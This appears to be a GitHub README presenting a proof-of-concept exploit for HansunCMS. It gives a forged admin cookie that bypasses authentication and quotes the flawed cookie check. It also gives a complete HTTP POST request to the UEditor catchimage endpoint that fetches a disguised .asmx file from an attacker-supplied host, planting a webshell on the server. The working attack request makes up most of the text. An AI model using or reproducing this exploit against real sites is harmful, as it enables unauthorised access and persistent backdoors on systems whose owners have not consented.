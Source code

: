 # hansuncmswebshell 

hansuncms  Authentication Bypass and File Upload

hansuncms [](https://www.68team.com/)
<br>Authentication Bypass cookies add AdminUser=AdminId=3B17A20D0B04694C&AdminUser=A5D8190690DE7EC5&AdminPwd=28AF506D68AA3AB1A8F5136675B903480F3C4A24DA67438014A80335E37AD6534880AD891A5A15A1&AdminName=A5D8190690DE7EC5&Language=30;ASP.NET_SessionId=hlz4zjbvx0dze5haljxdxuuk<br>
<br>![poc](https://github.com/MorStardust/hansuncmswebshell/blob/main/bypass.png)<br>
<br>webshell upload more like  CNVD-2017-20077  <br>
<br>hansuncms have net 1.4.3 ueditor and Authentication Bypass<br>
<br>some code<br>
![code](https://github.com/MorStardust/hansuncmswebshell/blob/main/code.png)
 <br>if (context.Request.Cookies["AdminUser"] != null || context.Request.Cookies["AdminUser"]["SysUser"] != "")<br>

cookies have AdminUser not null can use ueditor upload webshell

poc

<br>POST /ueditor/net/controller.ashx?action=catchimage HTTP/1.1<br>
<br>Host: xxxxxxxxxx<br>
<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0<br>
<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br>
<br>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br>
<br>Accept-Encoding: gzip, deflate<br>
<br>Content-Type: application/x-www-form-urlencoded<br>
<br>Content-Length: 59<br>
<br>Origin: xxxxxx<br>
<br>Connection: close<br>
<br>Referer: http://xxxxxxxx/cms/Login.aspx<br>
<br>Cookie:AdminUser=AdminId=1&AdminUser=1&AdminPwd=1&AdminName=1&Language=30;ASP.NET_SessionId=hlz4zjbvx0dze5haljxdxuuk<br>
<br>Upgrade-Insecure-Requests: 1<br>
<br> <br>
<br>source%5B%5D=http%3A%2F%2Fx.x.x.x%2F1.asmx.jpg%3F.asmx<br>
<br>![poc](https://github.com/MorStardust/hansuncmswebshell/blob/main/poc.png)<br>
<br>![poc](https://github.com/MorStardust/hansuncmswebshell/blob/main/result.png)<br>

